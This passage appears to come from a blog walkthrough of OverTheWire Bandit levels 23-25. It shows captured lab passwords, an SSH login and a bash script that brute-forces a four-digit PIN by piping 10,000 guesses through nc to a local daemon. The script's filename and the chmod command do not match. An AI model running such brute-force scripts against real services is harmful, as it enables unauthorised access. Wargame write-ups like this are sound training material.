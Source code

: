 ```bash
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ ls -al
total 412
drwxrwxrwx    2 bandit23 bandit23   4096 Feb 11 14:11 .
drwxrwx-wt 2140 root     root     405504 Feb 11 14:38 ..
-rwxrwxr-x    1 bandit23 bandit23     73 Feb 11 13:37 bandit24_pass.sh
-rwxrwxrwx    1 bandit23 bandit23     33 Feb 11 14:14 password
bandit23@bandit:/tmp/tmp.N6nLd1uS2b$ cat password 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
{: .nolineno }

## Level 24 -> Level 25

### Login

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
password:VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
{: .nolineno }

### Task

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

### MyWalk

There are several ways to do this. But i choose writing a script to store all the strings to try (<actual_password> + pin) in a file and then connect to server and send this strings to.

Open nano with file "brute_force.sh"
```bash
#!/bin/bash

for i in {0000..9999}
do
        echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i >> pins_list.txt
done

cat pins_list.txt | nc localhost 30002 > response.txt
```
{: .nolineno }

Don't forget to make it executable:

```bash
chmod +x brute_force_pin.sh
```
{: .nolineno }
